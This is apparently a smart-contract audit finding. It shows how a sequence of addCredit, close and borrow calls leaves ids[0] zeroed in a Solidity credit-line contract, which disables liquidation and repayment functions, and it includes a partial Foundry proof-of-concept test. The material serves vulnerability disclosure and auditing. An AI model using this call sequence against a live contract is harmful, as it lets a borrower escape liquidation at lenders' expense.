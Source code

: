 ```solidity
modifier whileBorrowing() {
    if(count == 0 || credits[ids[0]].principal == 0) { revert NotBorrowing(); }
    _;
}
```

It turns out there is a simple sequence of calls which allows borrowing while `ids[0]` is deleted, and does not re-arrange the new borrow into `ids[0]`!

1. `id1 = addCredit()` - add a new credit line, a new `id` is pushed to the end of `ids` array.
2. `id2 = addCredit()` - called again, `ids.length = 2`
3. `close(id1)` - calls `removePosition()` on` id1`, now ids array is `[0x000000000000000000000000, id2 ]`
4. borrow(id2) - will borrow from id2 and call `_sortIntoQ`. The sorting loop will not find another index other than `id2's` existing index (`id == bytes32(0)` is true).

From this sequence, we achieve a borrow while `ids[0]` is `0`! Therefore, `credits[ids[0]].principal = credits[0].principal = 0`, and `whileBorrowing()` reverts.

The impact is massive - the following functions are disabled:
- `SecureLine::liquidate()`
- `LineOfCredit::depositAndClose()`
- `LineOfCredit::depositAndRepay()`
- `LineOfCredit::claimAndRepay()`
- `LineOfCredit::claimAndTrade()`
### Impact

Borrower can craft a borrow that cannot be liquidated, even by arbiter. Alternatively, functionality may be completely impaired through no fault of users.
### Proof of Concept

Copy the following code into `LineOfCredit.t.sol`

```solidity
function _addCreditLender2(address token, uint256 amount) public {
    // Prepare lender 2 operations, does same as mintAndApprove()
    address lender2 = address(21);
    deal(lender2, mintAmount);
    supportedToken1.mint(lender2, mintAmount);
    supportedToken2.mint(lender2, mintAmount);
    unsupportedToken.mint(lender2, mintAmount);
    vm.startPrank(lender2);
    supportedToken1.approve(address(line), MAX_INT);
    supportedToken2.approve(address(line), MAX_INT);
    unsupportedToken.approve(address(line), MAX_INT);
    vm.stopPrank();
    // addCredit logic
    vm.prank(borrower);
    line.addCredit(dRate, fRate, amount, token, lender2);
    vm.stopPrank();
    vm.prank(lender2);
    line.addCredit(dRate, fRate, amount, token, lender2);
    vm.stopPrank();
}
function test_attackUnliquidatable() public {
    bytes32 id_1;
    bytes32 id_2;
    _addCredit(address(supportedToken1), 1 ether);
    _addCreditLender2(address(supportedToken1), 1 ether);
    id_1 =  line.ids(0);
    id_2 =  line.ids(1);
    hoax(borrower);
    line.close(id_1);
    hoax(borrower);
    line.borrow(id_2, 1 ether);
```